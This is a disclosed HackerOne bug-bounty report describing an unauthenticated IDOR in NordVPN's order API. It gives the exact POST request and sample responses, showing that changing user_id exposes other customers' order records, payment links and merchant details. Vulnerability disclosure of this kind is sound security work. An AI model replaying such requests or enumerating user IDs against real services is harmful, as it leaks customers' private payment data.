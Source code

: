 # IDOR allow access to payments data of any user

## Report Details
- **Report ID**: 751577
- **URL**: https://hackerone.com/reports/751577
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-12-04T19:49:45.601Z
- **Disclosed**: 2020-02-05T02:53:18.633Z

## Reporter
- **Username**: dakitu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
simple send this POST request (no need any auth):

`POST /api/v1/orders HTTP/1.1
Host: join.nordvpn.com
Accept: application/json
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Content-Length: 179
DNT: 1
Connection: close`

`{"payment":{"provider_method_account":"6xdxdd","parameters":{}},"action":"order","plan_id":653,"user_id":20027039,"tax_country_code":"TW","payment_retry":0,"is_installment":false}`

will respond:
`{"id":42615458,"user_id":20027039,"confirmation":{"id":23093398,"created_at":"2019-12-04 17:01:35","updated_at":"2019-12-04 17:01:35","type":"redirect_post","value":"{\"url\":\"https:\\\/\\\/www.coinpayments.net\\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,\"email\":\"█████\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,\"item_name\":\"VPN order\",\"invoice\":\"49476958\",\"success_url\":\"https:\\\/\\\/join.nordvpn.com\\\/payments\\\/callback\\\/264cae0b89e44a7bd263431b68d1122d\",\"cancel_url\":\"https:\\\/\\\/join.nordvpn.com\\\/order\\\/error\\\/?error_alert=payment&eu=1\",\"want_shipping\":0}}"}}`


change user_id to 23093782 and you will get:
`{"id":42616121,"user_id":89495166,"confirmation":{"id":23093782,"created_at":"2019-12-04 17:16:14","updated_at":"2019-12-04 17:16:14","type":"redirect","value":"https:\/\/pay.gocardless.com\/flow\/RE000W16X7XH4JCXJZ623MS6H7W316N3"}}`


change id to 89495247 (my test account) and you will get:
`{"id":42616142,"user_id":89495247,"confirmation":{"id":23093800,"created_at":"2019-12-04 17:16:48","updated_at":"2019-12-04 17:16:48","type":"redirect_post","value":"{\"url\":\"https:\\\/\\\/www.coinpayments.net\\\/index.php\",\"parameters\":{\"cmd\":\"_pay\",\"reset\":1,\"email\":\"hackerhacker@test.pl\",\"merchant\":\"e64a9629f9a68cdeab5d0edd21b068d3\",\"currency\":\"USD\",\"amountf\":125.64,\"item_name\":\"VPN order\",\"invoice\":\"49478089\",\"success_url\":\"https:\\\/\\\/join.nordvpn.com\\\/payments\\\/callback\\\/4513bd083a97e1b5c23c69096d89ac80\",\"cancel_url\":\"https:\\\/\\\/join.nordvpn.com\\\/order\\\/error\\\/?error_alert=payment&eu=0\",\"want_shipping\":0}}"}}`


Just letting You know that i submited this bug today on support@nordvpn.com from lewiatan~@ cause i wasn't able to report it via hackerone.

## Impact

leak sensitive customer data

## Attachments
No attachments
